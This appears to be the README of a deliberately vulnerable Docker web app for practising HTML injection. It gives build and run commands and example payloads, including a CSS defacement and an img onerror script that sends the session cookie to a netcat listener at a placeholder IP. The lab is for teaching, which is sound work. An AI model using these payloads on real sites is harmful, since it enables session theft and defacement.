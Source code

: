 # HTML Injection   

A simple docker container that has a web app that is susceptible to HTML injection.

## Build
```
docker build -t html-injection .
```

## Usage
```
docker run --rm -d -p 5000:5000 --name html-injection -t html-injection
```

## Examples
### 1) Simple HTML Injection
Click the "Click to enter your name" button and insert some simple HTML tags.

```
<h1>Plumpmonkey</h1>
```

### 2) Defacement of the page
You can import pictures using a script.

```
<style> body {background-image: url('https://uwe-cyber.github.io/images/uwecyber.png');}</style>
```

### 3) Stealing Cookies
Export the session cookie to a remote server.

Have a nc listener running on port 5001 on your local machine.

```
nc -lvp 5001
```

Then use the following script to export the cookie to your local machine. Note the `removeAttribute` is used to prevent the script from running more than once.

```
<img src=x onerror="this.src='http://<IP ADDRESS>:5001/?'+document.cookie; this.removeAttribute('onerror');">
```

